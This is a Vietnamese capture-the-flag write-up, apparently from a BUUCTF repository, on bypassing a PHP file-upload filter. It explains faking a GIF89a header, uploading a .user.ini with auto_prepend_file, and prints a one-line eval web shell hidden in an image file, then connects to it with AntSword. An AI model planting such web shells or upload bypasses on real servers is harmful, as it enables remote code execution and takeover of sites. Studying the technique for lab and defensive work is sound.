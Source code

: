 ![Screenshot 2024-01-05 084737](https://github.com/Llam-a/BUUCTF/assets/115911041/24f09ecb-910d-41cd-8e80-dcee91a30f9d)

Mình sẽ upload Trojan r dùng burpsuite để bắt package 

![Screenshot 2024-01-05 084917](https://github.com/Llam-a/BUUCTF/assets/115911041/cfaced9f-a759-4078-90bf-e17241947d51)

Và kết quả là bị filter nên mình sẽ đổi suffix của file và sửa lại content_type đi

![Screenshot 2024-01-05 085039](https://github.com/Llam-a/BUUCTF/assets/115911041/988f6a4a-8ef0-472a-bf12-95739b1a5ab2)

Vẫn bị filter, mình thay đổi Trojan 1 chút

![Screenshot 2024-01-05 085149](https://github.com/Llam-a/BUUCTF/assets/115911041/fb9d39ba-e8d1-4aac-b05f-c47862b28a00)

Sau đó thì nó hiện ra lỗi exif_imagetype.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5f5799b0-d7a7-40e3-ac47-32910f4e07f0)

Hàm exif_imagetype() dùng để đọc thông tin Exif đầu tiên trong một tệp hình ảnh và xác định kiểu của nó.Hàm sẽ mở tệp và đọc một phần nhỏ của dữ liệu Exif từ đầu tệp. Sau đó, nó sẽ phân tích và so sánh các giá trị trong dữ liệu Exif với các mẫu kiểu hình ảnh đã biết để xác định kiểu của tệp.Nếu hàm exif_imagetype() không thể đọc dữ liệu Exif từ tệp hoặc không tìm thấy các mẫu kiểu hình ảnh phù hợp, nó sẽ trả về giá trị FALSE. Nếu thành công, nó trả về một số nguyên đại diện cho kiểu hình ảnh, như đã mô tả trong giải thích trước đó.

Vậy ta thêm GIF89a vào đầu

![Screenshot 2024-01-05 092444](https://github.com/Llam-a/BUUCTF/assets/115911041/bd467482-0b30-41a5-a68a-f04f164a45e8)

Và ta đã upload thành công.Nhưng mà bây giờ nó chỉ ở dạng hình ảnh,và ta phải parse nó sang php.Sau khi research thì mính biết them 1 cách để bypass filter trong upload file là upload `.user.ini`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/86bde3dc-a45c-4ab8-94c0-17ca6803a703)

Tệp .user.ini cho phép bạn tùy chỉnh cấu hình PHP một cách linh hoạt và không yêu cầu quyền quản trị hệ thống.Khi một yêu cầu web được gửi đến ứng dụng PHP, trình chủ (web server) sẽ tìm kiếm tệp .user.ini trong thư mục gốc của ứng dụng. Nếu tệp tồn tại, các thiết lập trong tệp sẽ được áp dụng cho yêu cầu hiện tại và các yêu cầu sau đó trong cùng phiên làm việc.Ta có thể đặt cài đặt INI của chế độ PHP_INI_PERDIR và PHP_INI_USER trong php.ini trong .user.ini và .user.ini có thể được sử dụng miễn là nó nằm trên máy chủ sử dụng chế độ CGI/FastCGI.

Và có 2 setting thú vị là: auto_prepend_file và auto_append_file

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b639e580-91ef-4cc9-a258-49beaeebd983)

Tên file được chỉ định sẽ được tự động parse vào file chính. Ví dụ ta set auto_prepend_file=test.abc ở file .user.ini thì khi ta mở 1 file php trong cùng thư mục thì cái file test.abc đó sẽ tự động được load vào file php đó, tương tự như khi ta gọi đến 1 hàm include hoặc require.

Từ đó dẫn đến ý tưởng attack là đầu tiên ta sẽ upload 1 file thỏa mãn filter và chứa code php trong đó. Ví dụ exploit.png

```PNG
<script language="php">@eval($_POST['shell']);</script>
```
Sau đó upload 1 file .user.ini có chứa setting auto_prepend_file vào file exploit.png với nội dung sau:

```PNG
auto_prepend_file=test.png
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/17786d2f-8eca-4e3d-84ea-ea3d750049c3)

Tiếp theo mình upload file Trojan

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/27de0386-16ab-4cbe-ac4c-01df30571c3d)

Sau đó dùng antsword để đọc file

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2459e400-fd5e-4b25-96a3-73e736a72bb2)





